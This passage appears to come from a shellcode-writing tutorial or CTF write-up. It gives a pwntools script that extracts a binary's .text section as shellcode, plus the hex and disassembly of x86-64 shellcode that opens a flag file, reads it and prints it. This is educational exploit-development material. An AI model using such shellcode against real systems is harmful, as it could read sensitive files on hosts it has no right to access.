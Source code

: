 Using this python code, we can generate our shellcode from the binary : 

```python
#!/usr/bin/python3

import sys
from pwn import *

context(os="linux", arch="amd64", log_level="error")

file = ELF(sys.argv[1])
shellcode = file.section(".text")
print(shellcode.hex())

print("%d bytes - Found NULL byte" % len(shellcode)) if [i for i in shellcode if i == 0] else print("%d bytes - No NULL bytes" % len(shellcode))
```
{: .nolineno }

This is the current result : 
```shell
python shellcoder.py flag
6a0048bf2f666c672e74787457b8020000004889e7be000000000f05488d374889c7b800000000ba180000000f05b801000000bf01000000ba180000000f05b83c000000bf000000000f05
75 bytes - Found NULL byte
```
{: .nolineno }

Using pwn disasm we can see the instructions from the shellcode : 
<pre><code>
pwn disasm '6a0048bf2f666c672e74787457b8020000004889e7be000000000f05488d374889c7b800000000ba180000000f05b801000000bf01000000ba180000000f05b83c000000bf000000000f05' -c 'amd64'
   0:    6a <r>00</r>                    <g>push</g> <purple>0x0</purple>
   2:    48 bf 2f 66 6c 67 2e 74 78 74    <g>movabs</g> <r>rdi</r>,  <purple>0x7478742e676c662f</purple>
   c:    57                       <g>push</g> <r>rdi</r>
   d:    b8 02 <r>00 00 00</r>           <g>mov</g> <r>eax</r>,  <purple>0x2</purple>
  12:    48 89 e7                 <g>mov</g> <r>rdi</r>,  <r>rsp</r>
  15:    be <r>00 00 00 00</r>           <g>mov</g> <r>esi</r>,  <purple>0x0</purple>
  1a:    0f 05                    <g>syscall</g>
  1c:    48 8d 37                 <g>lea</g> <r>rsi</r>,  <r>[rdi]</r>
  1f:    48 89 c7                 <g>mov</g> <r>rdi</r>,  <r>rax</r>
  22:    b8 <r>00 00 00 00</r>           <g>mov</g> <r>eax</r>,  <purple>0x0</purple>
  27:    ba 18 <r>00 00 00</r>           <g>mov</g> <r>edx</r>,  <purple>0x18</purple>
  2c:    0f 05                    <g>syscall</g>
  2e:    b8 01 <r>00 00 00</r>           <g>mov</g> <r>eax</r>,  <purple>0x1</purple>
  33:    bf 01 <r>00 00 00</r>           <g>mov</g> <r>edi</r>,  <purple>0x1</purple>
  38:    ba 18 <r>00 00 00</r>           <g>mov</g> <r>edx</r>,  <purple>0x18</purple>
  3d:    0f 05                    <g>syscall</g>
  3f:    b8 3c <r>00 00 00</r>           <g>mov</g> <r>eax</r>,  <purple>0x3c</purple>
  44:    bf 00 <r>00 00 00</r>           <g>mov</g> <r>edi</r>,  <purple>0x0</purple>
  49:    0f 05                    <g>syscall</g>
</code></pre>
